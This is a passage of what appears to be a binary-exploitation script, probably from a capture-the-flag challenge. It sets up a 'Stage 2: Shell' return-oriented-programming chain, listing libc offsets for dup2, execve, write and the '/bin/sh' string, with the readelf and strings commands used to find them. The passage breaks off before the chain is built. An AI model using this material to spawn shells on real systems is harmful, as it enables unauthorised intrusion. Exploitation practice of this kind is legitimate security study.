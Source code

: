     ### Stage 2: Shell
    # build rop
    
    if target == 'local':
    # readelf -s /lib/x86_64-linux-gnu/libc-2.29.so | grep -e " dup2@@GLIBC" -e " execve@@GLIBC" -e " write@@GLIBC"
    #  1011: 00000000000ebf00    33 FUNC    WEAK   DEFAULT   14 dup2@@GLIBC_2.2.5
    #  1509: 00000000000c7d60    33 FUNC    WEAK   DEFAULT   14 execve@@GLIBC_2.2.5
    #  2271: 00000000000eb7d0   153 FUNC    WEAK   DEFAULT   14 write@@GLIBC_2.2.5
    # strings -a -t x /lib/x86_64-linux-gnu/libc-2.29.so | grep /bin/sh
    # 183cee /bin/sh
        dup2_offset   = 0xebf00
        execve_offset = 0xc7d60
        write_offset  = 0xeb7d0
        binsh_offset  = 0x183cee
    
    else:
    # readelf -s libc.so.6_ | grep -e " dup2@@GLIBC" -e " execve@@GLIBC" -e " write@@GLIBC"
    #   999: 00000000001109a0    33 FUNC    WEAK   DEFAULT   13 dup2@@GLIBC_2.2.5
    #  1491: 00000000000e4e30    33 FUNC    WEAK   DEFAULT   13 execve@@GLIBC_2.2.5
    #  2246: 0000000000110140   153 FUNC    WEAK   DEFAULT   13 write@@GLIBC_2.2.5
    # strings -a -t x libc.so.6_  | grep /bin/sh
    # 1b3e9a /bin/sh
        dup2_offset   = 0x1109a0
        execve_offset = 0xe4e30
        write_offset  = 0x110140
        binsh_offset  = 0x1b3e9a
    